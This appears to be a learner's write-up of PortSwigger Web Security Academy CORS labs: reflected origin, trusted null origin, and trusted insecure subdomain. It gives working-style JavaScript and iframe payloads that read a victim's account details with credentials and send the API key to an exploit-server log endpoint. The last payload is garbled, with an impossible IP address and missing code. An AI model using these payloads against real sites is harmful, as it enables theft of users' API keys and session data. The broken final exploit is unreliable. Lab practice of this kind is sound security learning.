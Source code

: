 **Cross-origin resource sharing **


Submitted arbitrary header on Origin:
Response we get a 200 with a access-Control-Allow-Credentials header suggesting that it may support CORS. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/35caee02-7f84-4f97-aa4c-8d8c96bbf21b)





Will send us the victim api key

```
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
      location='/log?key='+this.responseText;
  };
</script>
```

**CORS vulnerability with trusted null origin**
Origin: null 
Gave us a CORS vuln
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3eba5d6e-0161-4be7-a350-52bfb5cebc66)


```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
Exploit:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
      location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

We got the user api in our access log

**CORS vulnerability with trusted insecure protocol***


Add a subdomain 
```
Origin: http://0af10055036af2e282c947d500680096.web-security-academy.net/product?productId=1
```




CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP. 

From <https://portswigger.net/web-security/cors/lab-breaking-https-attack> 

```
Access-Control-Allow-Origin: https://0af10055036af2e282c947d500680096.web-security-academy.net/product?productId=1
Access-Control-Allow-Origin: http://0af10055036af2e282c947d500680096.web-security-academy.net/product?productId=1
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bb51cc80-ab46-4b8b-a0c1-4a7dacca72fc)









Exploit: 
Exploit to retrieve API key

```
<script>
    document.location="http://stock.0ae10002044123ed8106ca53004f0040.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://172.18.1238.178/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

